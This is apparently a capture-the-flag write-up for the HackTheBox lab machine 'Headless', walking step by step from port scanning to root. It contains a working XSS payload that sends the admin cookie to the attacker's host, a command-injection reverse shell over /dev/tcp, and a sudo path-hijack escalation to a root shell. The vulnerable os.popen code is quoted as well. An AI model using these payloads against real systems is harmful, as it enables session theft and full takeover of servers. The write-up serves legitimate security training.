






Headless - Machine HackTheBox
IP: 10.10.11.8
Machine Name: Headless
Difficulty: Easy
We start by performing a scan with Nmap:
sudo nmap --min-rate 5000 -sS -n -vvv -Pn 10.10.11.8 -oN scan_ports_tcpThis informs me of two open ports:
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
5000/tcp open upnp syn-ack ttl 63In visiting the website at http://10.10.11.8:5000/, I note the following:

When listing the routes, I get "dashboard" and "support":
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "http://10.10.11.8:5000/FUZZ" -c -vI receive a status code 500 when accessing "dashboard":
[Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 475ms]
| URL | http://10.10.11.8:5000/support
* FUZZ: support
[Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 279ms]
| URL | http://10.10.11.8:5000/dashboard
* FUZZ: dashboardWhen I click on “For questions”, I see the following form:

When entering anything in all the fields and submitting the form, I see no change. However, when placing a payload like this in "Message" I see something different:
<img src=x onerror=alert(1) />Going to /dashboard, I have no authorization.
Continuing on the main page, you should see a screen similar to this one:

Now, what's so interesting about this? If you look closely, we can see the headers we send in our request. Modifying the "Accept" and "User-Agent" headers doesn't affect the request, but I'm going to do it with the "User-Agent" header for convenience. Since we can modify this on our end, we could see if it is vulnerable to XSS (Cross-Site Scripting) and thus steal the "is_admin" cookie.
Enter this in "Message" to trigger the hacking alert:
<img src=x onerror=alert(1) />Now, send the request intercepting with Burp Suite and modify the "User-Agent" header to the following:
<img src=x onerror="fetch('http://10.10.16.43/?cookie='+document.cookie)" />Listen on port 80 to receive the cookie:
python3 -m http.server 80After waiting a few seconds, you should receive the "is_admin" cookie from the victim user. Now you just need to replace the current cookie with the administrator's cookie.
If you go to /dashboard, replace the cookie with the admin cookie and reload the site, you will get the following:

I'm going to generate a report and intercept the request. When I try things like ";pwd;", I get a Command Injection vulnerability.

Now, I can send me a reverse shell by sending the following in the "date" field:
;bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.43/8443+0>%261";I listen to my victim machine:
rlwrap nc -lnvp 8443We perform tty treatment:
script /dev/null -c bash
[ctrl + z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 30 columns 142Now, the dashboard contains the following lines of code:
@app.route('/dashboard', methods=['GET', 'POST'])
def admin():
if serializer.loads(request.cookies.get('is_admin')) == "user":
return abort(401)
script_output = ""
if request.method == 'POST':
date = request.form.get('date')
if date:
script_output = os.popen(f'bash report.sh {date}').read()
return render_template('dashboard.html', script_output=script_output) What it does is that, in case it receives a GET request, it renders the content of dashboard.html. If it receives a POST request, it checks for the "date" parameter to execute the command "bash report.sh {date}". When we entered ";pwd;", the executed command looked like this: "bash report.sh ;pwd;". This caused pwd to run as an additional command after running "bash report.sh".
To escalate privileges, we ran "sudo -l" to check if we can run any commands as sudo, and observed the following:
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
(ALL) NOPASSWD: /usr/bin/syscheckWhen reading the contents of "syscheck" with "cat /usr/bin/syscheck", I see the following code in Bash:
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
/usr/bin/echo "Database service is not running. Starting it..."
./initdb.sh 2>/dev/null
else
/usr/bin/echo "Database service is running."
fi
exit 0In the script, I see that it checks for the existence of the "initdb.sh" file in the current path and executes. I can create an "initdb.sh" that starts a "/bin/bash" shell as follows:
echo -e '#!/bin/bash\n/bin/bash' > initdb.sh && chmod +x initdb.shAfter that, I just have to run the script to get a terminal with root privileges.
sudo /usr/bin/syscheck
Do you have any questions or experience any problems trying to solve the machine? Contact me on Discord or just talk to me for a chat! I'm available to chat :).
FisMatHack#3733
Thanks for reading :)